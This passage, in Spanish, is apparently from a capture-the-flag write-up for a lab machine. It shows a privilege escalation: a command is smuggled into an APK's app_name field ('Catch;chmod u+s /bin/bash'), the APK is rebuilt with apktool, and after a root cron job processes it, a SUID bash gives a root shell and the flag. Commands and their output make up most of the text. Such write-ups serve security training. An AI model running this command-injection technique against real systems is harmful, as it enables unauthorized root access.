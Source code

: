 Define todas las variables e itera en un bucle por los APKs dentro de $DROPBOX para generar un nombre aleatorio (generado con openssl) añadiendole '_verified.apk', moviéndolos a otro directorio y llama a las funciones que expliqué antes con sus correspondientes argumentos

Para la APK que ya tengo, si pasa la validación

```null
jarsigner -verify catchv1.0.apk &>/dev/null
echo $?
0
```

La expresión regular sobre el AndroidManifest.xml devuelve 32

```null
grep -oPm1 "(?<=compileSdkVersion=\")[^\"]+" AndroidManifest.xml
32
```

Puedo modificar el campo app_name el el archivo strings.xml, ya que se le está pasando a la función app_check con wildcards. Al estarse creando un directorio utilizando como argumento este nombre, es posible inyectar un comando y que lo ejecute

```null
grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" strings.xml
Catch;chmod u+s /bin/bash
```

Creo de nuevo la APK con apktool

```null
apktool b
I: Using Apktool 2.7.0
I: Checking whether sources has changed...
I: Smaling smali folder into classes.dex...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk into: ./dist/catchv1.0.apk
```

La transfiero a la máquina víctima al directorio /opt/mdm/apk_bin. Una vez se acontece la tarea CRON, la bash pasa a ser SUID, puedo obtener una sesión como root y visualizar la segunda flag

```null
will@catch:/opt/mdm/apk_bin$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
will@catch:/opt/mdm/apk_bin$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
fe620c756be3352151296c7e9af5ee43
```
